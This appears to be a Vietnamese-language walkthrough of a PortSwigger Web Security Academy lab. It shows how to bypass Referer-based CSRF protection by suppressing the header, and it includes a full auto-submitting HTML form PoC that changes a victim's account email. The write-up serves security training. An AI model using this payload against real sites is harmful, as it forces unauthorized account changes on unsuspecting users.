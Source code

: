 # CSRF where Referer validation depends on header being present

### Yêu cầu: Tạo thẻ HTML để tấn công CSRF thay đổi email của tài khoản người dùng

### Hướng làm: 

Đầu tiên chúng ta đăng nhập vào tài khoản `wiener:peter` sau đó bắt request bước thay đổi email.

![image](https://user-images.githubusercontent.com/72268643/158013692-39a68602-f7fd-4d9f-bfdb-5d229322d835.png)

ta thấy so với các lab trước, header của lab này có thêm `HTTP Referer` được trình duyệt thêm vào nhằm chỉ đến nơi các hành động được thực hiện

Tuy nhiên, ta có thể xóa `HTTP Referer` trong request rồi gửi lại thì trang web sẽ vẫn trả về kết quả mà ta yêu cầu thực hiện.

![image](https://user-images.githubusercontent.com/72268643/158014098-c1f3515f-4b1c-4808-af0d-3649998edade.png)

Vậy nên khi viết PoC, ta sẽ thêm thẻ `<meta name="referrer" content="never">` để có thể xóa bỏ `HTTP Referer` trong request
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac2a1fc81e9b67eac0c8024000ba009c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="victim&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
		<meta name="referrer" content="never">
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```
Gửi lên server rồi gửi đến nạn nhân và hoàn thành lab.
